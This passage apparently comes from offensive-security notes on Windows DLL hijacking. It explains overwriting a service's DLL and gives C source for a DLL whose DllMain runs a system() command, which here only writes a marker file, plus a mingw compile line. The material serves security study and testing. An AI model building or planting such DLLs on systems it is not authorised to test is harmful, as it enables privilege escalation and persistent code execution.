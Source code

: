 ## Overwriting DLL Binaries

Once we know the paths of the DLLs used by a given service binary, we can check if we have the permissions to overwrite them to load a malicious DLL.

`malicious-lib.c`
```c
#include <windows.h>
#include <stdlib.h>

// __declspec(dllexport) int add_numbers(int a, int b) {
//     system("echo 'hacks' > C:\\Users\\Quickemu\\Downloads\\HACKED");
//     return a + b;
// }

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
  system("echo 'hacks' > C:\\Users\\Quickemu\\Downloads\\HACKED");
  return TRUE;
}
```

Example:
```sh
x86_64-w64-mingw32-gcc -shared -o malicious-lib.dll malicious-lib.c
```

If we're able to overwrite the original DLL with the malicious one, then the malicious code will execute everytime the original program executes.

In general, if you do not know which functions are exported by the DLL, you can just use the `DllMain` to introduce malicious code.

```c
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	system("echo 'hacks' > C:\\Users\\Quickemu\\Downloads\\HACKED");
	return TRUE;
}
```

This approach however can bring visible changes to the external behavior of the program, and in general it is not a very stealth approach.
